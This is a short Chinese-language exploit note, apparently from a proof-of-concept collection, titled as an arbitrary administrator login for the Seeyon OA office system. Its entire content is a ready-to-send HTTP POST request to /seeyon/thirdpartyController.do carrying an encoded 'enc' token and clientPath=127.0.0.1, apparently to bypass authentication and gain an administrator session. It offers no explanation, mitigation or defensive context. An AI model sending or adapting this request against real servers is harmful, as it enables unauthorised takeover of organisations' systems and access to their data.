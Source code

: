 # 致远OA任意管理员登录

## 致远OA任意管理员登录
```
POST /seeyon/thirdpartyController.do HTTP/1.1

method=access&enc=TT5uZnR0YmhmL21qb2wvZXBkL2dwbWVmcy9wcWZvJ04%2BLjgzODQxNDMxMjQzNDU4NTkyNzknVT4zNjk0NzI5NDo3MjU4&clientPath=127.0.0.1

```

